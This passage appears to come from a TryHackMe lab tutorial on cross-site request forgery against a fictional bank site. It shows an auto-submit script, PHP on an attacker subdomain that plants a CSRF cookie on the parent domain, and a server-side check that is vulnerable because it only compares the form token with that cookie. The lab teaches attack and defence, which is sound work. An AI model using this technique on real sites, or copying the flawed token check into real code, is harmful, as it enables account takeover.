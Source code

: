 ```html
	
	</div>
<script>
document.getElementById('password_submit').click(); 
</script>
        
```

- In the above code, the attacker will update the payload and add the `base64 value` of Josh's bank account as a new CSRF token value. 
- Navigate to Josh's mailbox at the `mailbox.thm:8081` to see the new mail with the crafted CSRF payload.

![selected email screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/32ef629045775c0616918e9caf0536a5.png)  

- Once you click the link, it will redirect you to the attacker-controlled subdomain page and auto-submit the form to change the password. The attacker contains a code similar to that of the change password page of `mybank.thm`; however, he is also setting a cookie with the following code so that it will be forwarded to the main domain `mybank.thm` while triggering a CSRF attack.  
    

```php
<?php
...
setcookie(
    'csrf-token',               
    base64_encode("GB82MYBANK5699"),            
    [
        'expires' => time() + (365 * 24 * 60 * 60), 
        'path' => '/',                         
        'domain' => 'mybank.thm',                          
        'secure' => false,                      
        'httponly' => false,                 
        'samesite' => 'Lax' 
    ]
);
?>
```

- The attacker knows the hidden form parameter, and the form will submit all the data, including the hidden fields, to the original change password page of `mybank.thm:8080`. Following is the server-side code, let's see what is happening on the server:  
    

```php
<?php
if (base64_decode($_POST["csrf_token"]) == base64_decode($_COOKIE['csrf-token'])) { 
// Retrieve form data
$currentPassword = $_POST["current_password"];
$newPassword = $_POST["confirm_password"];
// Update Password
...;
```

- As we see in the above code, the server will decode the CSRF token and compare it with the cookie value. The server hosting `mybank.thm:8080` will consider the request legitimate as it comes from a logged-in user, and the CSRF token is also valid and will update the password.
